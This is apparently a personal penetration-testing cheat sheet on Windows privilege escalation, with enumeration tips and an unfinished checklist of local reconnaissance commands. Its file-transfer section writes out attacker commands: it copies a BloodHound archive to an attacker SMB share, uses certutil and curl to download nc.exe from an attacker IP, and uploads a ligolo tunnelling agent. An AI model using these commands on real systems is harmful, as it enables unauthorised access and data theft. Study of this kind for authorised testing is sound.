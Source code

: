 ```yaml
---
title: Windows Privilege Escalation
---
```

# Enumeration
- We can display the integrity level of processes with `Process Explorer`, for files using `icacls` or `Get-Acl`, and for the current user with`whoami /groups`
- Check [LOLBAS](https://lolbas-project.github.io/#) for ways to use or misuse common binaries found on Windows (Living Off the Land)

## File Transfer
- To transfer file, we can host our own SMB server with `impacket-smbserver` and then map it from the windows hosts with `net use`. After we can copy files
```zsh
impacket-smbserver -smb2support alexa . -username alexa -password password123
```
```powershell
net use \\192.168.45.232\alexa password123 /user:alexa

copy .\bloodhound_marcus.zip \\192.168.45.232\alexa\
```
- We can also use `certutil.exe` or `curl` (Starting from Windows 10) to download a file
```powershell
certutil.exe -urlcache -split -f http://192.168.45.176:8080/nc.exe nc.exe

curl http://192.168.45.176:8080/nc.exe -o nc.exe
```
- We can also use the built-in functions `download` and `upload` from `evil-winrm` to transfer files
```zsh
download <filename> <path-on-localhost/filename>

upload <path-on-localhost/filename> <filename>

#For example uploading the ligolo agent binary
upload /usr/share/windows-resources/binaries/ligolo-agent/agent.exe agent.exe
```
## Information Checklist
- [ ] Username and hostname
	- [ ] Check current user - `whoami` or `whoami /all` for more information
- [ ] Group memberships of the current user
	- [ ] Check current user groups membership - `whoami /groups`
- [ ] Existing users and groups
	- [ ] Check local users  - `net user` or `net user username` for a specific user
	- [ ] Check local user - `Get-LocalUser`
	- [ ] Check local groups - `net localgroup`
	- [ ] Check local groups - `Get-LocalGroup`
	- [ ] Check local group member - `net localgroup "group name"`
	- [ ] Check local group members - `Get-LocalGroupMember groupname`
- [ ] Operating system, version and architecture
	- [ ] Check system information - `systeminfo`
	- [ ] Get Windows Version - `wmic os get Caption, Version, OSArchitecture` 
	- [ ] Get Windows version - `(Get-WmiObject -Class Win32_OperatingSystem).Caption, (Get-WmiObject -Class Win32_OperatingSystem).Version, (Get-WmiObject -Class Win32_OperatingSystem).OSArchitecture`
	- [ ] Get Windows version - `Get-ComputerInfo | Select-Object WindowsProductName, WindowsVersion, OSArchitecture`
- [ ] Network information
	- [ ] Check IP configuration - `ipconfig /all`
	- [ ] Check routes - `route print`
	- [ ] Check active connections - `netstat -ano`
- [ ] Installed applications